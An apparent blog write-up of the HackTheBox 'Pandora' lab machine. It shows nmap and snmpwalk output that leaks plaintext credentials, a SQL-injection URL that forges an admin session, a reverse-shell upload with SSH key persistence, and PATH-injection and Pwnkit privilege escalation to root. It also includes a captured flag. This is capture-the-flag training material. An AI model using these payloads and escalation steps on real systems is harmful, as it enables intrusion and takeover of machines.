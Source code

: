 ```yaml
---
title: Pandora
date: 2022-04-23
categories: [HackTheBox, Easy]
tags: [writeup, linux]     # TAG names should always be lowercase
author: Derrick
---
```

    
![](https://i.imgur.com/gUDqBgn.png)

Pandora is the first box I have ran into that requires a UDP scan to move forward rather than a standard TCP one. This box features finding plaintext creds through snmpwalk, spoofing an admin session from info we found in a mysql database, and abusing path injection to fully compromise the machine.

## Recon
---
`nmap -sV 10.10.11.136`
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-22 05:03 EDT
Nmap scan report for 10.10.11.136
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.21 seconds
```

![](https://i.imgur.com/NgrYOER.png)
    
![](https://i.imgur.com/3PlKs8P.png)
    
![](https://i.imgur.com/RQvJFH3.png)


Its a static website, don't even bother with it. Gobuster dir and vhosts don't return anything. The contact form on the website does not lead anywhere, its just there for show. Nikto also does not yeild any results. Revisit the drawing board.

We can try a UDP scan instead.

> UDP scans are very slow so we specify a high min rate.
{: .prompt-tip }

`nmap -sU 10.10.11.136 --min-rate 2000`
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-23 00:47 EDT
Nmap scan report for pandora.htb (10.10.11.136)
Host is up (0.14s latency).
Not shown: 992 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
3/udp     closed compressnet
161/udp   open   snmp
17006/udp closed unknown
17146/udp closed unknown
22105/udp closed unknown
33744/udp closed unknown
49214/udp closed unknown
58002/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 2.85 seconds
```
Well this is a new attack vector that I had no idea about, let's check out SNMP.

`snmpwalk -v1 -c public 10.10.11.136`
```
iso.3.6.1.2.1.25.4.2.1.5.907 = STRING: "-o -p -- \\u --noclear tty1 linux"
iso.3.6.1.2.1.25.4.2.1.5.980 = ""
iso.3.6.1.2.1.25.4.2.1.5.1117 = STRING: "-u daniel -p HotelBabylon23"
iso.3.6.1.2.1.25.4.2.1.5.5464 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.6262 = STRING: "-k start"
```
Plain text creds can be seen from an snmpwalk

`nmap -sU -sVC -p 161  10.10.11.136`
```
[...]
|   1117: 
|     Name: host_check
|     Path: /usr/bin/host_check
|     Params: -u daniel -p HotelBabylon23
```
Another way of seeing the creds is by using a script scan against port 161.

Now using the plain text creds we can ssh into daniel.

`ssh daniel@pandora.htb `
```                
The authenticity of host 'pandora.htb (10.10.11.136)' can't be established.
ED25519 key fingerprint is SHA256:yDtxiXxKzUipXy+nLREcsfpv/fRomqveZjm6PXq9+BY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:4: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'pandora.htb' (ED25519) to the list of known hosts.
daniel@pandora.htb's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 23 Apr 05:35:13 UTC 2022

  System load:  0.0               Processes:             237
  Usage of /:   66.1% of 4.87GB   Users logged in:       1
  Memory usage: 20%               IPv4 address for eth0: 10.10.11.136
  Swap usage:   0%

  => /boot is using 91.8% of 219MB


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Apr 23 05:24:41 2022 from 10.10.14.11
daniel@pandora:~$ 
```

Shell obtained :)

## User
---
After running linpeas, we find that we can run nmap on ourselves. Doing this we can find out our own open ports.

```bash=
daniel@pandora:~$ nmap localhost
Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-23 19:53 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).
Other addresses for localhost (not scanned): ::1
rDNS record for 127.0.0.1: localhost.localdomain
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 0.06 seconds
daniel@pandora:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                    
tcp6       0      0 :::80                   :::*                    LISTEN      -                    
tcp6       0      0 :::22                   :::*                    LISTEN      -                    
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                    
udp        0      0 0.0.0.0:161             0.0.0.0:*                           -                    
udp6       0      0 ::1:161                 :::*                                -  
```

Locate the locally hosted webserver from the apach configs/webroot. Dump the sql tables.

> Noteabley the user sessions since the passwords arent crackable
{: .prompt-tip }

We have an admin user so we can log in using their session by generating a cookie.
```
http://localhost/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20endof%20%20--%20endof
```
From here we can upload a reverse shell since we have file upload and then hit it. These webshells are generally pretty janky so what we can do it force create a ssh key and grab the private key so that we can login. The commands to do so:
`ssh-keygen`
`cat id_rsa.pub > authorized_keys`
`chmod 600 authorized_keys`

## Root
---
The web user can run this custom SUID found from `find / -perm -4000 2>/dev/null`. /usr/bin/pandora_backup is the exploitable binary. Viewing it with strings we see that the tar command is specified with an absolute path. This is vulnerable to path injection. Just run `export PATH=/my/path:$PATH`

From there we create our malicious tar with the contents
```
#!/bin/bash
chmod 7777 /bin/bash
```
This creates bash as an SUID as root. Run `bash -p` to gain the root shell. Pwnded :)

### Pwnkit
Running linpeas shows you
```
[...]
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034                 
```
This CVE is pwnkit and running it should get you instant root.

```
daniel@pandora:~$ ./Pwnkit
root@pandora:
```

```
root@pandora:/home/daniel# ls -la /home
total 16
drwxr-xr-x  4 root   root   4096 Dec  7 14:32 .
drwxr-xr-x 18 root   root   4096 Dec  7 14:32 ..
drwxr-xr-x  7 daniel daniel 4096 Apr 23 05:53 daniel
drwxr-xr-x  3 matt   matt   4096 Apr 22 18:21 matt
root@pandora:/home/daniel# cat /home/matt/user.txt
7e328d9b93d565137e31e20fd9fce3ba
```
Now we grab the user flag and we are done